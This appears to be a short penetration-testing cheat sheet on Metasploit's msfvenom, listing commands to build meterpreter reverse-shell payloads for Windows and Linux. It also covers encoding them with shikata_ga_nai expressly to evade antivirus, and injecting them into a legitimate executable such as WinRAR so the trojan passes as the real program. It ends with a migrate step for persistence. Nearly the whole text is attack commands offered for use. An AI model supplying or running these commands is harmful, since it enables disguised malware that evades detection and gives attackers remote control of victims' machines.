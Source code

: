 
Msfvenom Payloads
=
setup handler with exploit/multi/handler in msf

use encoder to evade AV

x86 - 32bit
x64 - 64bit

`msfvenom`
	`--list payloads`
	`--list formats`
	`-a ARCH -p payload LHOST=LIP LPORT=LP -f exe/elf > filename.exe/elf`
	`-p windows/meterpreter/reverse_tcp LHOST=LIP LPORT=PORT -f exe > payload.exe` - windows payload
	`-p linux/meterpreter/reverse_tcp LHOST=LIP LPORT=PORT -f elf > payload` - linux payload
	

Msfvenom Encoding
=
avoids signature based AV systems

can do multiplied iterations to increase chance of evading AV

`msfvenom`
	`--list encoders`
	`-e x86/shikata_ga_nai` encoder flag for windows and linux 32bit, add into an payload command
		`-i 10`  iterations of encoding


Payload Injection Into Executables
=
requires legitimate executable like WinRAR (download it from the website)

`msfvenom -p windows/meterpreter/reverse_tcp LHOST=IP LPORT=PORT -e x86/shikata_ga_nai -i 10 -f exe -x /path/to/legitimate.exe > winrar.exe` - injects encoded payload into a legitimate windows executable
	`-k` - keep functionality of executable (doesn't always work) otherwise exe wont function as usual


After exploitation:

`run post/windows/manage/migrate` this is to ensure connection persist if program is closed on targer